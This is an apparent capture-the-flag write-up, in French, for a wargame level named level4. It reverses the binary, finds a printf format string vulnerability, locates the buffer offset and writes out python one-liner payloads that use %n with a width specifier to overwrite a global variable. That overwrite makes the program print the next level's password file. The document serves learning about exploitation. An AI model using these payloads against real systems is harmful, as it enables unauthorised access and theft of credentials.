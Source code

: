 Quand on reverse l'executable
On voit que main appel la fonction n qui appel la fonction p.


n() appel fgets() qui recupere de maniere safe notre input.
puis dans la fonction notre input est utiliser en tant que format string pour printf
Ce qui en fait une vulnerabiliter.
Apres la fonction p, une variable a l'adresse 0x8049810 est stockee dans eax puis est comparee a la valeur 0x1025544 (16930116).
Si eax est egal a cette valeur, alors un appel a system est executer avec comme argument:
0x8048590 = "/bin/cat /home/user/level5/.pass"


Il faut donc que l'on arrive a modifier la variable 0x8049810 pour qu'elle soit egale a 0x1025544
Apres quelque test on remarque que 0x8049810 vaut 0.


Grace a la vulnerabilite du printf on va pouvoir utiliser une format string attack afin de modifier la valeur de m (0x8049810)
Pour se faire nous avons besoin de l'emplacement de notre buffer dans la stack au moment ou printf est executer (l'offset)


python -c "print('AAAA' + ' %p '*20)" | ./level4
ce qui devrait nous donner une liste d'adresse dont une egale a 41414141
On retient sa position qui est 12.

et on verifie si le 12e emplacement est bien notre buffer
( '%12\$x' signifie que l'on souhaite utiliser le 12eme argument de printf, donc le 12eme element sur la stack )
python -c "print('AAAA' + '%12\$x')" | ./level4

Maintenant que nous avons l'offset de notre buffer on peut passer a la suite et essayer de changer des valeurs.

On souhaite ecrire l'adresse de m dans notre buffer pour ensuite utiliser le format %n afin d'ecrire le nombre de caractere ecrit avant notre format %n dans notre variable m.
---> ("coucou%n", &nb)  --> nb = 6

1ere etape:
python -c "print('\x10\x98\x04\x08' + '%12\$x')" | ./level4
cela devrait ecrire notre adresse dans le 12eme argument.
Il manque plus qu'a ecrire X caractere et d'utiliser %n.

m doit avoir la valeur 0x1025544
ce qui correspond a 16 930 116 en decimal


On pourrait utiliser quelque chose comme ceci:
python -c "print('\x10\x98\x04\x08' + 'B'*16930116 + '%12\$n')" | ./level4

Mais la taille de notre buffer nous bloquerait pour ecrire autant de B
ce que nous pouvons utiliser est la width de printf. Si on met un format %d avec une width de 500:
%500d, printf ajoutera bien 500 caractere a notre string.

Donc si on souhaite ecrire 0x1025544 dans notre variable m il suffit d'ecrire %16930116d

Mais attention car on ecrit deja 4byte donc on le soustrait a notre valeur ce qui donne %16930112d

python -c "print('\x10\x98\x04\x08'+'%16930112d' + '%12\$n')" | ./level4
